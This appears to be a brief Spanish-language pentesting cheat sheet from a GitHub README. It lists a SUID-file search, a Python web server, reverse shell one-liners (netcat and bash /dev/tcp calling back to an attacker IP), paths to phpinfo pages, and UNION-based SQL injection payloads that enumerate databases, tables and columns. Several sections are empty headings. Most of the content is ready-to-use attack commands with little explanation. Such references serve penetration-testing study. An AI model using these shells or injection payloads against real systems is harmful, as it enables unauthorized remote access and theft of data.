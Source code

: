 # General-CheatSheet
[PayloadAllTheThinks](https://github.com/swisskyrepo/PayloadsAllTheThings) Lista de payloads y bypasses para Web Application Security.

## Linux Commands
### FIND
Listar los permisos SUID:
> find  \-perm -4000 2>/dev/null
### Python
Crear un servidor de python en mi máquina local:
> python3 -m http.server <PORT>
### Reverse Shell
Se debe ejecutar en la máquina local primero alguna herramienta para poner en escucha el <PORT>,
como ejemplo usaremos **NetCat**:

``` nc -lnvp <PORT> ```
```
nc -e /bin/bash <MY_IP> <PORT>
bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1
bash -c "bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1"
```
## Information Disclose
### PHP
Archivos PHP con posible información sensible
```
/cgi-bin/phpinfo.php
/info.php
```
## SQL Injection
### List of Databases, Tables and Columns
Lista información de las bases de datos
> ' union select schema_name from information_schema.schemata-- -

Lista información de las tablas
> ' union select table_name from information_schema.tables where table_schema="<TABLE_NAME>"-- -

Lista información de las columnas
> ' union select column_name from information_schema.columns where table_schema=”<DB_NAME>” and table_name = '<TABLE_NAME>'-- -
### Error Based
### Blind

## SERVER SITE TEMPLATE INJECTION (SSTI)


